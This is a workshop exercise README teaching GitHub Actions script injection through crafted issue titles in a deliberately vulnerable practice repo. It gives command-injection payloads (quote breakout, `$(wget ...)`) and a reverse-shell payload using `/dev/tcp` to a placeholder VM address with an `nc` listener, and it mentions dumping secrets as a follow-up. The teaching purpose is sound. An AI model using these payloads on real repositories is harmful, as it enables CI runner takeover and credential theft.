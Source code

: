 # Exercise 1 - :bomb: Exploiting the script injection vulnerability in the run command
The [Check issue title workflow](.github/workflows/check-issue-title.yml) uses the issue title in the `run` command as follows:
```
title="${{ github.event.issue.title }}"
```
Because this value is provided by the user when they create a new issue, this provides an opportunity for an attacker to exploit the workflow with by crafting an issue title that tricks the script into executing code where it's expecting data.

If we open an issue with the title...
```
octocat"; ls -l $GITHUB_WORKSPACE"
```
...the script looks like the following...
```
title="octocat"; ls -l $GITHUB_WORKSPACE""
```

This payload closes the initial quote, then ends the command with a semicolon. This allows the following `ls -s` command to run as a separate command.  

### Create an issue with the exploit payload
Let's see this in action by creating a new issue with this title and see what happens. Follow the steps below to exlpoit the script injection vulnerability in your repo:  
1. Go to the Issues tab and click the green `New issue` button in the top right.  
2. In the issue form type `octocat"; ls -l $GITHUB_WORKSPACE"` in the title field.  
3. Leave the description field empty and click the green `Create` button in the bottom rigth.  
4. Navigate to the Actions tab and select the `Check issue title` actions workflow on the left.  
5. Click on the workflow run.  
6. Click on the job `check-issue-title`.  
7. In the `check-issue-title` job lob, click the `>` to the left of `Check issue title` step to see the output.  
8. Observe that the workflow runs the command `ls -l $GITHUB_WORKSPACE`!  

<img width="1042" alt="Screenshot 2023-08-30 at 7 38 43 PM" src="https://github.com/robandpdx/workflow-script-injection/assets/95243761/e3fa3917-2834-45cc-a297-d25614c3185e">

Now let's look at the [Check issue title with action workflow](.github/workflows/check-issue-title-with-action.yml) which uses an [action](.github/actions/check-issue-title-action/action.yml) using the run command. The [action](.github/actions/check-issue-title-action/action.yml) uses the issue title in the run command as follows:
```
if [[ ${{ inputs.issue-title }} =~ ^octocat ]]; then
...
```
If we look at the runs of the [Check issue title with action workflow](.github/workflows/check-issue-title-with-action.yml) that were triggered using the payload we used above, we will notice that we don't see the output of the `ls -s $GITHUB_WORKSPACE` command in the logs. So, this workflow is not vulnerable, right? Wrong! This workflow is still vulnerable to script injection. Let's try using a different payload to see some evidence of that.  

If we open an issue with the title...
```
$(wget github.com)
```
...the script looks like the following...
```
if [[ $(wget github.com) =~ ^octocat ]]; then
...
```
This payload will cause the script to run `wget github.com` as it evaluates the if condition.  

Let's see this in action by creating a new issue with this title and see what happens. Follow the steps below to exlpoit the script injection vulnerability in your repo:  
1. Go to the Issues tab and click the green `New issue` button in the top right.  
2. In the issue form type `$(wget github.com)` in the title field.  
3. Leave the description field empty and click the green `Create` button in the bottom rigth.  
4. Navigate to the Actions tab and select the `Check issue title with action` actions workflow on the left.  
5. Click on the workflow run.  
6. Click on the job `check-issue-title`.  
7. In the `check-issue-title` job lob, click the `>` to the left of `Check issue title` step to see the output.  
8. Observe that the workflow log shows the output of the command `wget github.com`!  

### :imp: Getting a shell on the runner
Now let's try something a little more sinister...  
> **Note**: Because next part of this lesson requires a cloud VM with a public IP address, we will only demo this section in the workshop. We encourage you to go through this part of the exercise on your own after the workshop.  

1. Spin up a linux VM in the cloud that has a public IP address.
2. Open a command prompt and ssh into the VM
3. Run the command `nc -nvlp 1337` on the command prompt of the VM. This will cause the VM to listen on the port 1337.  
3. Next open a new issue in your repo with the title `octocat"; bash -i >& /dev/tcp/<YOUR-VM-IP-ADDRESS>/1337 0>&1 ; ls -l $GITHUB_WORKSPACE"`, replacing `<YOUR-VM-IP-ADDRESS>` with the public IP address of your cloud VM. This will cause the workflow to pipe the bash shell to your VM's IP address on port 1337.  
4. Now return to the command prompt window. As the worklfow runs, you will see your command prompt window drop into a shell on the runner. Now you have a shell on the runner! This is a great "foot in the door" from which I can attemp other exploits, like dumping secrets or cloud credentials to use in other attacks.  

